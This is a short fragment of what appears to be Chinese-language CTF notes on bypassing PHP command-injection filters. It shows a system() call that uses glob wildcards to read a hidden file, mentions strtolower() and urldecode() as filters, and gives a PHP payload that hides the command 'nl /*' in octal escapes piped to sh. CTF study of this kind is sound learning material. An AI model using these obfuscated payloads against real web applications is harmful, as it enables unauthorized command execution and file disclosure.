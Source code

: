 ![微信图片_20231017104124](F:\LocalCTF\pictures\微信图片_20231017104124.png)

```bash
system("more /[b-z][0-9][@-z][b-z]")
```



![微信图片_20231017104155](F:\LocalCTF\pictures\微信图片_20231017104155.png)

```bash
strtolower()
```



![微信图片_20231017104148](F:\LocalCTF\pictures\微信图片_20231017104148.png)

```bash
urldecode()
```



![image-20231017104309905](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231017104309905.png)

```php
$A = 'echo "\156\154\040\057\052"|sh'; # ascii码转义
system($A);
```

